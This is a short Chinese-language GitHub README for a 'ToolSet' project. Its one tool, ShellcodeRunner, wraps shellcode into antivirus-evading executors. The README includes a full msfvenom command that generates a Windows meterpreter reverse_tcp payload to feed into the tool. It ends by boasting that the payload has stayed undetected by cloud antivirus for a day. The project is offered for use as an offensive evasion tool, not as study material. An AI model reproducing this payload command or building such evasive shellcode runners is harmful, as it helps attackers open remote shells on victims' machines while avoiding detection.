



# ToolSet

一个小小的工具集

## 安装

```shell
git clone $repo_url

sudo docker-compose build && sudo docker-compose up -d
```

访问 `http://127.0.0.1:8080/swagger/index.html` 即可查看接口文档


## 工具列表

### ShellcodeRunner

#### 介绍

一个shellcode包装器，可根据提供的shellcode raw[`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > ~/shell.raw`]文件
生成免杀的执行器

#### 国际惯例




一天过去了，还能冲，应该bypass了云查杀


